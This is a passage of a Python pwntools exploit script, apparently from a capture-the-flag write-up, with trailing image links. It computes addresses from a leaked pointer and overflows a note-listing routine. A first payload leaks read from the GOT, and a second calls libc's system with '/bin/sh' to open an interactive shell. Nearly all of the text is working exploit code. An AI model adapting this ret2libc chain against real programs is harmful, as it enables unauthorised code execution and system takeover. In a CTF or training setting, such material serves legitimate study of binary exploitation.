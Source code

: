 ```python
        pass

print_name_offset = 0xbe2
print_name_addr = u32(print_name)

make_note_offset = 0x9af
make_note_addr = print_name_addr-(print_name_offset-make_note_offset)
make_note = p32(make_note_addr)

write_wrap_offset = 0x97a
write_wrap_addr = print_name_addr-(print_name_offset-write_wrap_offset)
write_wrap = p32(write_wrap_addr)

main_while_offset = 0xc0f
main_while_addr = print_name_addr-(print_name_offset-main_while_offset)
main_while = p32(main_while_addr)

read_got_offset = 0x300c
read_got_addr = print_name_addr-(print_name_offset-read_got_offset)
read_got = p32(read_got_addr)

ulisting_offset = 0x3140
ulisting_addr = print_name_addr-(print_name_offset-ulisting_offset)
ulisting = p32(ulisting_addr)

p.sendlineafter('Choice: ', '2')
p.sendlineafter('name: ', read_got)
p.sendlineafter('price: ', 'larryxi')

p.sendlineafter('Choice: ', '1')
p.sendafter('name: ', 'A'*31+'\x00')
p.sendafter('description: ', 'C'*91+make_note)

p.sendlineafter('Choice: ', '3')
payload_partone = 'A'*0x34+write_wrap+main_while+ulisting
p.sendlineafter('listing...: ', payload_partone)
read_func = p.recv(8)[:4]
#gdb.attach(p)

read_func_addr = u32(read_func)
libc = ELF('libc.so')
system_func_addr = read_func_addr - (libc.symbols['read'] - libc.symbols['system'])
string_sh_addr = read_func_addr - (libc.symbols['read'] - next(libc.search('/bin/sh')))
system_func = p32(system_func_addr)
string_sh = p32(string_sh_addr)

p.sendlineafter('Choice: ', '1')
p.sendafter('name: ', 'A'*31+'\x00')
p.sendafter('description: ', 'D'*91+make_note)

p.sendlineafter('Choice: ', '3')
payload_parttwo = 'A'*0x34+system_func+main_while+string_sh
#print repr(system_func+main_while+string_sh)
#gdb.attach(p)
p.sendlineafter('listing...: ', payload_parttwo)
p.interactive()
```


[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fphgg3z7b8j20k503774o.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fphgg5021ej20it03mmxo.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg5u6vwj20ja03k0sy.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1fphgg6sr8vj20vf06njs7.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg8rdztj20mt0bita8.jpg